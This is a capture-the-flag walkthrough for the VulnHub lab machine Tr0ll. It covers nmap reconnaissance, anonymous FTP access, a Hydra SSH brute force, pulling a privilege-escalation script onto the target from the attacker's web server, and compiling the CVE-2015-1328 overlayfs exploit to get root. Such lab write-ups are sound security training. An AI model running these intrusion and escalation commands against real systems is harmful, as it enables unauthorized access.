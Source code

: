 # CTF #3 - Tr0ll
Today we are hacking into Tr0ll - a boot-to-root vulnerable machine. It's not a hard machine to hack into but it's a good one to learn new stuff and let the previous knowledge sink in.

As always, let's start with my setup:
## My Setup
- A VirtualBox VM running **Kali Linux.** 
- Another VM running **Tr0ll.** You can download it **[here.](https://www.vulnhub.com/entry/tr0ll-1,100/)** 
- A **local network** for both machines. If you want to know how to set up a local network for your VirtualBox adventures, follow [**this simple tutorial.**](https://github.com/amtzespinosa/secure-network-for-ctf)
- Coffee. You always need coffee for hacking.
- And today, to season this CTF session... Let's play [**Megadeth - Rust in Peace.**](https://www.youtube.com/watch?v=xvfU5MGyI7k&ab_channel=TheRockChannel)

Now you are all set up and ready to go!


## Recon

I always like to run a fast/aggressive scan over the network with **Nmap.** To do so, I use this command:

    sudo nmap -sV -T4 192.168.1.1/24

*192.168.1.1/24 is my local network --- yours might be different. Check it with the command* `ip a`.

> **Note:** In real world situations, this scans may trigger firewalls and other network security appliances (in case the network is secure). If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable.

After getting the victim's IP, I like to run another scan. This time a more **thorough and focused scan** with the command:

    sudo nmap -p- -T4 -A -O -v 192.168.1.12

This way, we get more information about the victim. Let's have a look:

    Nmap scan report for 192.168.1.12
    Host is up (0.00024s latency).
    Not shown: 65532 closed tcp ports (reset)
    
    PORT   STATE SERVICE VERSION
    
    21/tcp open  ftp     vsftpd 3.0.2
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to 192.168.1.23
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 600
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 2
    |      vsFTPd 3.0.2 - secure, fast, stable
    |_End of status
    
    22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   1024 d618d9ef75d31c29be14b52b1854a9c0 (DSA)
    |   2048 ee8c64874439538c24fe9d39a9adeadb (RSA)
    |   256 0e66e650cf563b9c678b5f56caae6bf4 (ECDSA)
    |_  256 b28be2465ceffddc72f7107e045f2585 (ED25519)
    
    80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
    | http-methods: 
    |_  Supported Methods: GET HEAD POST OPTIONS
    |_http-title: Site doesn't have a title (text/html).
    | http-robots.txt: 1 disallowed entry 
    |_/secret
    |_http-server-header: Apache/2.4.7 (Ubuntu)
    
    MAC Address: 08:00:27:2E:C5:50 (Oracle VirtualBox virtual NIC)
    Device type: general purpose
    Running: Linux 3.X|4.X
    OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
    OS details: Linux 3.2 - 4.9
    Uptime guess: 0.004 days (since Sun Apr 16 13:14:44 2023)
    Network Distance: 1 hop
    TCP Sequence Prediction: Difficulty=258 (Good luck!)
    IP ID Sequence Generation: All zeros
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Ok, now we know that ports 21 **(FTP)**, 22 **(SSH)** and 80 **(HTTP)** are open. As we can see, anonymous login is allowed for an FTP directory. Let's log in and see what we have:

    ftp 192.168.1.12

> **USER:** anonymous 
> 
> **PASS:**

 

And now we can list the files. `ls` and we can see a `lol.pcap` file. This files are the output files of sniffing tools like **Wireshark**. Let's download it and have a look.

    get lol.pcap
   
By default it will be saved in your kali folder. Right click and "Open with Wireshark". If we analyze it, we find a message: 

    Well, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol :-P\n
    \n
    Sucks, you were so close... gotta TRY HARDER!\n

Isn't it obvious? Let's open Firefox and look for:

    http://192.168.1.12/sup3rs3cr3tdirlol/

And there we go! We found the **/sup3rs3cr3tdirlol**. Here we can find a file we should download. To see what the file contains we can use `strings` command.

    strings roflmao

And we get an output. But the interesting thing of this output is this line: 

**Find address 0x0856BF to proceed**

Another directory? Hell yeah!

    http://192.168.1.12/0x0856BF/

More files. This time looks like we get a usernames list and a Pass.txt. Let's try some **SSH** bruteforcing with **Hydra.** 

> **Note:** After a few tries... I realized that the password wasn't the lines contained in the Pass.txt but Pass.txt itself!

    sudo hydra -L users.txt -p Pass.txt ssh://192.168.1.12 

Note I have made a new text document with the usernames. And quickly we find a valid combination:

> **USER:** overflow
> 
> **PASS:** Pass.txt

Let's connect via **SSH**! Ok, now we're into the system! Let's start enumerating and deciding the way to escalate privileges but first:

    /bin/bash -i

Oh yeah! Much better. But be careful: we are againts the clock! 

## Enumeration
Once inside, the way I use to enumerate possible ways for **PrivEsc** is by getting into the `tmp` folder and downloading the Linux Exploit Suggester script into the victim's machine and running it. This way I can see my possibilities. To do this, paste the script into your `/var/www/html` folder. Once you have it:

    sudo service apache2 start

Now, in **troll** machine, inside `tmp` folder:

    wget http://192.168.1.23/les.sh

> **Note:** this should be your local IP. Mine is 192.168.1.23.

Now we should give permissions to the file:

    chmod 777 les.sh

And run it:

    ./les.sh

Now we know that this machine is specifically vulnerable to:

    [+] [CVE-2015-1328] overlayfs
    
       Details: http://seclists.org/oss-sec/2015/q2/717
       Exposure: highly probable
       Tags: [ ubuntu=(12.04|14.04){kernel:3.13.0-(2|3|4|5)*-generic} ],ubuntu=(14.10|15.04){kernel:3.(13|16).0-*-generic}
       Download URL: https://www.exploit-db.com/download/37292

I'm leaving you both files for downloading: les.sh and the folder containing the CVE-2015-1328. Once again, we just need to upload to **troll** the exploit as we did with the les.sh script. Once you have it, we are ready to go!

## Exploitation

To compile the exploit we need to run this command:

    gcc 2015.c -o exploit

And give permissions to the output file:

    chmod 777 exploit

Now, run it!

    ./exploit

And we should see a root shell now!

    #

Change to the `root` directory and there youll find **proof.txt**. You made it! And that's it for this machine. Happy hacking!
